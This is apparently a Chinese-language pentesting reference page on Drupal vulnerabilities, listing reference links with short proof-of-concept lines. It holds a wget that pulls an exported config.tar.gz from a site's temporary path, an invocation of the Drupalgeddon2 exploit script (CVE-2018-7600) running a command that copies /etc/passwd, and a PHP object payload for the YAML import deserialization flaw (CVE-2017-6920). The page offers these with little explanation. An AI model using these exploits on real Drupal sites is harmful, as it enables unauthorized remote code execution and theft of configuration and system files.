 ## 8.1.9 

### config.tar.gz 下载漏洞

参考链接

* [Drupal 8 配置文件下载漏洞分析](http://blog.knownsec.com/2016/09/drupal-8-config-download/)

Poc

```
# 后台导出配置后，执行这个
wget 'http://127.0.0.1/system/temporary/?file=config.tar.gz' -O config.tar.gz
```

## 8.3.3

### CVE-2018-7600 - post_render/call_user_func 命令执行漏洞

参考链接

* [dreadlocked/Drupalgeddon2 - Exploit for Drupalgeddon 2 - CVE-2018-7600](https://github.com/dreadlocked/Drupalgeddon2)
* [Uncovering drupalgeddon](https://research.checkpoint.com/uncovering-drupalgeddon-2/)
* [Drupal core - Highly critical - Remote Code Execution - SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)

Poc

```
python2.7 CVE-2018-7600.py http://127.0.0.1/ 'cp /etc/passwd /tmp'
```

### yaml 反序列化漏洞

参考链接

* [CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)

影响版本

* <= 8.3.3

Poc

```
打开 /admin/config/development/configuration/single/import

导入 Single configuration

!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```